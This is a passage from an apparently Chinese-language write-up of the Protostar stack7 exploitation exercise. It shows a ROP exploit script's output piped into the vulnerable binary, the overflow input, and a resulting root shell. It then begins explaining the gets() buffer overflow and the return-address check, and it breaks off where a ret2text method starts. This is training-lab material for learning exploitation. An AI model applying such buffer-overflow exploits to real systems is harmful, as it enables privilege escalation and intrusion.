 ```shell
$ (python stack7_rop.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    AAAABBBB # 后接一堆乱码       
id
uid=0(root) gid=0(root) groups=0(root)
```

<img src=".\stack7-result-1.png" style="zoom:80%;" />

<img src=".\stack7-result-2.png" style="zoom:80%;" />

> Tip：上述过程为ROP方法。



## 原理分析

本题要利用的漏洞是`gets()`函数缓冲区溢出漏洞。

分析源码，源码会对`getpath()`的返回地址进行检查，不允许用0xb开头的地址覆写其返回地址。

### 方法一：ret2text

查看`getpath()`的汇编代码：
